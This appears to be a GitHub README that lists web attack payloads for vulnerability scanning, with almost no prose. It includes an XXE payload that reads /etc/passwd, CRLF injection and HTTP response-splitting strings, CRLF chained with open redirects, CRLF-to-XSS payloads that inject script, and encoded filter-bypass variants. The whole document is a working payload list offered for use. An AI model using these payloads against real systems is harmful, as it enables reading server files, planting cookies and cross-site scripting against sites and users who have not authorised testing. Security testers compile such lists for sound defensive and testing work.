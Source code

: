 # Payloads
Payloads for scanning Vulnarability


# XXE Vulnarability Payloads

``<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
 <!ELEMENT foo ANY>
 <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>``



# CRLF Injecton Payloads

%0d%0aSet-Cookie:%20lang=crlf%3b

/%25E5%2598%258A%25E5%2598%258Dcontent-type:text/html%25E5%2598%258A%25E5%2598%258Dlocation:%25E5%2598%258A%25E5%2598%258D%25E5%2598%258A%25E5%2598%258D%25E5%2598%25BCsvg/onload=alert%2528innerHTML%2529%25E5%2598%25BE

# HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                    
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

# CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

# Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
